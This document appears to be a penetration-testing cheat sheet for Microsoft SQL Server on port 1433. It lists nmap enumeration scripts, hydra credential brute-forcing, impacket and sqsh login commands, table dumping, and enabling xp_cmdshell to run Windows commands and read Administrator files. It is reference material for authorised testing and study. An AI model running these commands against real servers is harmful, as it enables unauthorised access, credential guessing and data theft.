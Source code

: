 ```yaml
---
title: Microsoft SQL (MSSQL) Pentesting
desc: Default port is 1433.
tags: [1433, Database, Impacket, MSSQL, Nmap, Sqsh, Windows]
alts: []
render_with_liquid: false
---
```


## 1. Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ms-sql-info -p 1433 <target-ip>
    nmap --script ms-sql-config -p 1433 <target-ip>
    nmap --script ms-sql-empty-password,ms-sql-xp-cmdshell -p 1433 <target-ip>
    nmap --script ms-sql-* -p 1433 <target-ip>
    ```

2. **Brute Force Credentials**

    ```sh
    hydra -L usernames.txt –p password <target-ip> mssql
    hydra -l username –P passwords.txt <target-ip> mssql
    ```

<br />

## 2. Connect

1. **Use Impacket**

    ```sh
    impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip>
    impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip> -windows-auth
    ```

2. **Use Sqsh**

    ```sh
    sqsh -S <target-ip> -U username -P password
    sqsh -S <target-ip> -U username -P password -D database
    ```

<br />

## 3. Basic Commands

1. **Commonly Used**

    ```sh
    # Get databases
    > SELECT * FROM master.dbo.sysdatabases

    # Get table content
    > SELECT * FROM <database_name>.dbo.<table_name>
    ```

<br />

## 4. Spawn a Windows Command Shell and Executing using Impacket

If you connected MSSQL using **impacket**, you can exeucte the Windows Shell Commands by **"enable_xp_cmdshell"**.

1. **Enable/Disable a Windows Shell**


    ```powershell
    > enable_xp_cmdshell
    > disable_xp_cmdshell
    ```

2. **Basic Commands**

    You can execute commands the same as Windows Command Prompt.

    ```powershell
    # Get current user
    > xp_cmdshell whoami

    # Show files and directories
    > xp_cmdshell dir
    > xp_cmdshell dir \Users
    # Show hidden files
    > xp_cmdshell dir /a

    # Get current directory
    > xp_cmdshell cd

    # Get contents of file
    > xp_cmdshell more \Users\Administrator\example.txt
    > xp_cmdshell type \Users\Administrator\example.txt
    ```